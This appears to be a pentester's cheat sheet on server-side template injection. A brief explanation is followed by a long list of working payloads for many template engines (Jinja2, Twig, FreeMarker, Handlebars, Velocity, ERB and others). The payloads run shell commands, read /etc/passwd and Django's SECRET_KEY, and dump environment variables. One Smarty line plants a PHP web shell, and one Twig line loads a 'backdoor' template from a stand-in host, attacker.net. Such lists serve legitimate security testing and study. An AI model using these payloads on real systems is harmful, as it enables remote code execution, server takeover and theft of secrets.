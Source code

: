 # Server-Side Template Injection

{% hint style="info" %}
**Server-side template injection** is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

At the **severe** end of the scale, an attacker can potentially achieve **remote code execution**, taking full control of the back-end server and using it to perform other attacks on internal infrastructure.

Even in cases where full remote code execution is not possible, an attacker can often still use **server-side template injection** as the **basis** for **numerous other attacks**, potentially **gaining read access to sensitive data** and arbitrary files on the server.
{% endhint %}

## Identification

![](<../../../.gitbook/assets/image (12).png>)

## Payloads

```
-------------------------------------------------------------------
Polyglot:
${{<%[%'"}}%\

-------------------------------------------------------------------
FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
-------------------------------------------------------------------
Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
-------------------------------------------------------------------
Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
-------------------------------------------------------------------
Django Tricks (Python):
{% raw %}
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
-------------------------------------------------------------------
Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
{% endraw %}
-------------------------------------------------------------------
Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------
ASP:
<%response.write(date())%>.
<% Response.Write("testing execution") %>
<%="testing execution" %>
```

### Jinja2

{% embed url="https://jinja.palletsprojects.com/en/2.11.x/api#jinja2.Environment" %}
Syntax
{% endembed %}

### Exploitation

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection" %}
HackTrickz - SSTI
{% endembed %}

#### SSTI Map

{% embed url="https://github.com/vladko312/SSTImap" %}
